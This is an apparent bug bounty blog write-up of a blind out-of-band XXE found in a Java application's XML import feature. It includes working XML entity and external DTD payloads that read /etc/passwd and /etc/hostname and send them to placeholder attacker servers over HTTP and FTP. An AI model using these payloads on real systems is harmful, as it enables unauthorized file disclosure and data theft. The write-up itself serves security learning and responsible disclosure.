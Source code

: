 ```yaml
---
title: "My first OOB XXE exploitation"
date: 2021-04-30T12:00:00+01:00
description: My First OOB XXE Exploitation
---
```


![](banner.png)

Recently on a BugBounty program I came across my first XXE, blind what's more, as I found this case interesting I wanted to share it here.

## Recon
The recognition phase is quite basic, the scope is composed of a single URL with 2 distinct backends (administrators and users). For each of these backends the users' view is limited according to the rights they have.
* https://domain.tld/admin => URL for admin backend
* https://domain.tld/users => URL for users backend

I started to navigate in the application and all the tabs to understand how it works, although the scope is reduced the application is not very intuitive which makes its understanding a bit complicated.

After a few vulnerabilities found, the application seems rather robust, no "easy vulnerability", however, my eye is focused on a parameter of the admin side configuration page, a parameter named "tag configuration for XML file import". Hum interesting ... I quickly searched or imported an XML file, this import is not on the admin side but on the user side.

## Never trust ~~user input~~ application message
Luckily, the import page also allows you to download a template that will be valid for the application. So I downloaded this template and added a payload to display the content of */etc/passwd* but ... error message : "Invalid XML file (possible causes could be the use of DTDs or external entities for example)".

Hum... yet the response time of the server intrigued me. Rather than directly pointing me to an error, there was a loading time. Well... let's try something else.

Rather than trying to display the content of a file, I tried to see the use of ENTITIY is possible by forcing the server to make a request to my burp collaborator by including the following payload directly in the XML file :

```xml
<!DOCTYPE root [<!ENTITY % ext SYSTEM "http://{BURP_COLLABORATOR_URL}/"> %ext;]>
```

I upload and hop ... after a few seconds, an HTTP request to my burp collaborator. So despite the error message, the file is well parsed and it is possible to use ENTITIES

![XXE_OOB_Burp_Collaborator_Client](XXE_OOB_Burp_Collaborator_Client.png)

## Exploitation

All right, cool, let's try something else. I tried to extract the content from /etc/passwd and send it to my burp collaborator (blind XXE to exfiltrate data out-of-band) :
```xml
<!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY % xxe SYSTEM "file:///etc/passwd" >
<!ENTITY callhome SYSTEM "http://{BURP_COLLABORATOR_URL}/?%xxe;">]>
<foo>&callhome;</foo>
```

But... nothing. Okay, so then I tested it with an external dtd (In my case, I used an external server (VPS) with a python web server (`python3 -m http.server 80`) to deliver the payload and retrieve the content :

*payload in the uploaded XML file :*
```xml
<!DOCTYPE foo [ <!ENTITY % pe SYSTEM "http://{MY_SERVER_IP}/x.dtd"> %pe; %param1; ]>
<foo>&external;</foo>
```

*external dtd named x.dtd :*
```xml
<!ENTITY % stuff SYSTEM "file:///etc/pasword">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://{MY_SERVER_IP}/?data=%stuff;'>">
```

I save, I up the server, I send back the malicious XML file, the server comes to get my DTD and sends me back but without the content of the file */etc/passwd* ... what ????

I do not despair and I tried with a dtd of test to see if I recover well the desired value, this dtd is thus just used to validate that I recover well the parameter "toto" :

*payload in the uploaded XML file :*
```xml
<!DOCTYPE foo [ <!ENTITY % pe SYSTEM "http://{MY_SERVER_IP}/x.dtd"> %pe; %param1; ]>
<foo>&external;</foo>
```

*external dtd named x.dtd :*
```xml
<!ENTITY % stuff "toto">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://{MY_SERVER_IP}/p?data=%stuff;'>">
```

Let's start again, I save, I up the server, I send back the XML file, the server retrieves the DTD and I have the return with the value *toto* in the variable *?data=*.

After some research I saw that it was sometimes not possible to extract the contents of a file that includes some characters or line breaks (which is the case of */etc/passwd*).

In PHP it would have been possible to use a dtd like this:
```xml
<!ENTITY % stuff SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://{MY_SERVER_IP}/p?data=%stuff;'>">
```

To encode the whole thing in base64, the return of the complete file would have been done, you would have just had to decode it to get the whole file. Unfortunately the backend here is Java and I couldn't find an alternative.

So before digging I tried another file, */etc/hostname* :
*payload in the uploaded XML file :*
```xml
<!DOCTYPE foo [ <!ENTITY % pe SYSTEM "http://{MY_SERVER_IP}/x.dtd"> %pe; %param1; ]>
<foo>&external;</foo>
```

*external dtd named x.dtd :*
```xml
<!ENTITY % stuff SYSTEM "file:///etc/hostname">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://{MY_SERVER_IP}/?data=%stuff;'>">
```

Once again, I restart the web server, I send the XML, the server comes looking for my DTD and boom! the content of /etc/hostname is added as a parameter to the *?data=* variable.

This could have been enough as PoC but I kept on digging. Don't settle for the simplest, try to demonstrate the impact of your vulnerabilities !

## Digging

After some research I saw that it is possible to use the FTP protocol, which seems to be less troublesome than the *file://* wrapper for data extraction like this :

*payload in the uploaded XML file :*
```xml
<!DOCTYPE foo [ <!ENTITY % pe SYSTEM "http://{MY_SERVER_IP}/x.dtd"> %pe; %param1; ]>
<foo>&external;</foo>
```

*external dtd named x.dtd :*
```xml
<!ENTITY % stuff SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'ftp://{MY_SERVER_IP}/%stuff;'>">
```

For the FTP server, I used [xxeserv](https://github.com/staaldraad/xxeserv) which is specially designed for data extraction via FTP with a XXE OOB.

Here we go again. restart the web server, I send the XML, the server comes looking for my DTD and boom! Oh no ... only a partial content of /etc/passwd is displayed :

![XXE_OOB_Etc_Passwd](XXE_OOB_Etc_Passwd.png)

After some research this is related to the version of Java used and unfortunately I have not found a solution to this problem.

## Conclusion

So I found other leaks that I could extract and made my report.
Unfortunately... duplicate ¯\_(ツ)_/¯

The labs etc... are very good for training but we are often far from reality, despite having done a lot of labs dealing with the twentieth century I still spent time to successfully exploit it and for the blow despite this duplicate, this vulnerability has taught me a lot, what better for a first XXE (in bugbounty) than a XXE OOB blind especially since it was even more formative by showing that it is necessary not to stop at the first inconclusive attempt.
